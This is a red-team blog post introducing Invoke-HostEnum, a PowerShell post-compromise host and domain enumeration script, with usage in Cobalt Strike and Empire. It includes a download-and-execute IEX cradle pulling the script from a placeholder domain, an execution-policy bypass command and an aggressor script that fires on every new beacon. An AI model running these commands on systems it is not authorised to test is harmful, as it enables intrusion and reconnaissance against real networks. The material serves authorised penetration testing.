 # HostEnum - A PowerShell Host Situational Awareness Tool

**Andrew Chiles | May 2, 2017 | Tweet This Post: [:fa-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/2017/05/blogs/invoke_hostenum/&text=Invoke-HostEnum)**

## Overview

During a Red Team engagement, performing detailed Situational Awareness (SA) or enumeration on initial and subsequent host compromises is vital. Every good pen-tester or red teamer has their list of go-to scripts, commands, or "pasties" to run once initial shell access is achieved. The goal is to quickly learn as much about your environment as possible; including defenses, system configuration, interesting files, and opportunities for persistence and lateral movement. Moreover, when working in large and/or distributed teams, a common tool-base and procedure set is crucial to ensure that necessary enumeration is accomplished no matter who's behind the keyboard.

The first shell is often achieved on a host running the Microsoft Windows Operating System after a phishing/social-engineering attack or Web Application exploit. This makes PowerShell an excellent choice for automating post-exploitation and SA tasks. **Invoke-HostEnum** is a PowerShell 2.0 compatible enumeration script intended to be executed through a remote access capability such as Cobalt Strike's Beacon, Empire, or even a web-shell. All output is pre-formatted into Tables or Lists and converted to a string before returning results for this reason. Earlier internal versions of the script contained many more privilege escalation checks, but the continued development and robustness of [PowerUp][1] made these mostly redundant.

There are several good examples of PowerShell host enumeration tools including[ HostRecon][2] by Beau Bullock and [Invoke-WinEnum][3] in PowerShell Empire. Invoke-HostEnum borrows functions from these and other modules annotated throughout its source.  There was a similarly named Invoke-HostEnum function in PowerView that was [removed][4] in 2015, but this is not a resurrected version.

I've started to remove many (but not all) binary dependencies to avoid triggering potential alerts from running numerous common built-in Windows command-line enumeration tools in rapid succession. However, there is always room for improvement and contributions and suggestions to the Github repository are highly encouraged!

## Features

The following is a comprehensive list of the items currently enumerated by Invoke-HostEnum. Some enumerations functions require local administrator rights for best results and will result in no or limited results when run under a limited user context.

* OS Details, Hostname, Uptime, Installdate, Architecture
* Installed Applications and Patches
* Network Adapter Configuration, Network Shares, Connections, Routing Table, DNS Cache
* Running Processes (with full command line) and Installed Services
* Interesting Registry Entries (SNMP strings, Saved Putty Sessions)
* Local Users, Groups, and Administrators
* Personal Security Product Status
* Interesting file locations (Current User Profile) and keyword searches via file indexing
* Recycle Bin Contents
* Interesting Windows Logs (Get-ComputerDetails – Logon Events, AppLocker logs, PowerShell logs, RDP servers)
* Basic Domain enumeration (users, groups, trusts, domain controllers, account policy, SPNs)-Explicit Credential Logons (Event ID 4648)

As usual, you can get the latest version of tools on our GitHub repository.

## Usage

### Command Line

Execute locally hosted script with console output
    
```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Domain
``` 

Download and execute remotely hosted script

```
powershell -nop -c IEX (New-Object Net.Webclient).downloadstring("""http://yourdomain/Invoke-HostEnum.ps1""");Invoke-HostEnum -Local
```

Execute locally hosted script with HTML report output. If you want the mostly easily readable format and don't mind writing a file to disk, consider using the "-Path" option to specify a directory for an HTML formatted report
    
```    
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Path c:programdata
```
![Invoke-HostEnum HTML Report][5] **Invoke-HostEnum HTML Report**

### Cobalt Strike

Import script and execute interactively in a Beacon console
    
```
powershell-import ./scripts/Invoke-HostEnum.ps1
powershell Invoke-HostEnum -Local -Domain
```

Automatic execution – Use [aggressor][6] script to fire upon new beacon arrivals. This is ideal to implement on your initial interactive/phishing callback Team Server where you want to gather information in the target environment and may be away from the console. Consider combining with a Slack notification script as described in our previous post [Slack Notifications for Cobalt Strike ][7]or as thoroughly explained by Jeff Dimmock in [Slack Bots for Trolls and Work][8]. **Note:** This code would require slight modification to work for DNS beacons if desired.
    
```bash    
on beacon_initial {
    enumerate($1);
}

sub enumerate {
    if ( -exists script_resource("scripts/Invoke-HostEnum.ps1")) {
    binput($1,"[*] Executing Invoke-HostEnum");
    bpowershell_import($1, script_resource("scripts/Invoke-HostEnum.ps1"));
    bpowershell($1, "Invoke-HostEnum -Local -Domain");
    }
    else {
    berror($1, "Invoke-HostEnum.ps1 does not exist");
    }
}
```    

![][9] **Invoke-HostEnum Execution in Cobalt Strike**

### **PowerShell Empire**

I've also created a basic post-exploitation module for Empire (hostenum.py) that makes executing on an Empire agent extremely easy.

Copy scripts to the appropriate Empire path
    
```
cp Invoke-HostEnum.ps1 /data/module_source/situational_awareness/host
cp hostenum.py /lib/modules/situational_awareness/host
```

Start Empire
    
```    
# ./empire
```

Interact with agent
    
```    
(Empire) > interact 
```

Execute the module
    
```    
(Empire: BX1HBE3MZAWGF1BB) > usemodule situational_awareness/host/hostenum
(Empire: situational_awareness/host/hostenum) > run
```    

![][10] **Invoke-HostEnum Empire Module**


* * *

## Credits

Several functions are inspired or pulled directly from the following projects and are referenced in the code where applicable. Any omissions are not intentional. Thanks to the following authors and projects for the great work!

* * *

[1]: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
[2]: https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1
[3]: https://github.com/EmpireProject/Empire/tree/master/data/module_source/situational_awareness/host
[4]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[5]: /img/hostenum_console_html.png
[6]: https://www.cobaltstrike.com/aggressor-script/index.html
[7]: http://threatexpress.com/2016/12/slack-notifications-for-cobalt-strike/
[8]: https://bluescreenofjeff.com/2017-04-11-slack-bots-for-trolls-and-work/
[9]: /img/hostenum_cs.gif
[10]: /img/hostenum_empire1.png
[11]: /img/sanslogo.png

  
